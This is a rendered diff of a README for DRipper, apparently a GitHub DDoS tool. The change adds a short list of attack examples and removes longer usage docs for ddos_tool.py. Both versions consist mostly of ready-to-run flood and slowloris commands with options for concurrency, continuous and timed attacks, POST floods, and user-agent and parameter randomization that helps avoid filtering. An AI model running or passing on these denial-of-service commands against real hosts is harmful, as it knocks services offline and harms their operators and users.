

Before and after one commit to jsquads/DRipper, a Markdown page: README.md, the part around the change printed below. Shown: that part at 88% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -152,3 +376,7 @@ python3 DRipper.py -s example.com:8080 -t 500
+## Examples Summary
+
+```bash
+# Basic attack
 python3 DRipper.py -s 192.168.1.1 -t 135
 
 # High-intensity attack
@@ -157,80 +385,9 @@ python3 DRipper.py -s https://example.com -t 1000
 # Slowloris attack
 python3 DRipper.py -s example.com -t 500 --mode slowloris
 
-# Attack with custom port
+# Custom port
 python3 DRipper.py -s 192.168.1.1:8080 -t 200
+
+# Local testing
+python3 DRipper.py -s http://localhost:3000 -t 100
 ```
-
-#### Custom Headers
-Create a `headers.txt` file with custom headers (one per line, format: `Key: Value`):
-```
-User-Agent: Custom-Agent/1.0
-Accept: application/json
-Authorization: Bearer token123
-```
-
-### Advanced Tool (ddos_tool.py)
-
-#### Basic Flood Attack
-```bash
-# Send 10,000 requests with 200 concurrent connections
-python ddos_tool.py https://example.com -n 10000 -c 200
-```
-
-#### Continuous Attack (Infinite)
-```bash
-# Continuous attack until stopped (Ctrl+C)
-python ddos_tool.py https://example.com -c 500 --continuous
-```
-
-#### Duration-Based Attack
-```bash
-# Attack for 60 seconds
-python ddos_tool.py https://example.com -c 300 --duration 60
-```
-
-#### Slowloris Attack
-```bash
-# Slowloris-style attack (keeps connections open)
-python ddos_tool.py https://example.com -c 1000 --mode slowloris
-```
-
-#### POST Attack with Random Data
-```bash
-# POST requests with randomly generated data
-python ddos_tool.py https://api.example.com/endpoint -n 5000 -c 200 -m POST
-```
-
-#### With Custom Headers
-```bash
-python ddos_tool.py https://api.example.com -n 10000 -c 500 -H "Authorization:Bearer token,Content-Type:application/json"
-```
-
-#### Disable Randomization
-```bash
-# Use fixed user agent and no random parameters
-python ddos_tool.py https://example.com -n 5000 -c 100 --no-random-ua --no-random-params
-```
-
-### Command-Line Options (ddos_tool.py)
-
-```
-positional arguments:
-  url                   Target URL to attack
-
-optional arguments:
-  -h, --help            Show help message
-  -n, --requests N      Total number of requests (default: 1000, ignored if --continuous)
-  -c, --concurrency C   Number of concurrent requests (default: 100)
-  -t, --timeout T       Request timeout in seconds (default: 10)
-  -m, --method METHOD   HTTP method: GET, POST, PUT, DELETE, PATCH, HEAD (default: GET)
-  -H, --headers HEADERS Custom headers in format "Key:Value,Key2:Value2"
-  -d, --data DATA       Data to send with POST/PUT requests
-  --mode MODE           Attack mode: flood (default) or slowloris
-  --no-random-ua        Disable random user agent rotation
-  --no-random-params    Disable random query parameters
-  --continuous          Continuous attack (infinite requests until stopped)
-  --duration SECONDS    Attack duration in seconds (overrides -n)
-  --threads N           Number of worker threads (default: same as concurrency)
-```
-
````
Also changed, not shown: other parts of README.md (+351 -200 lines).
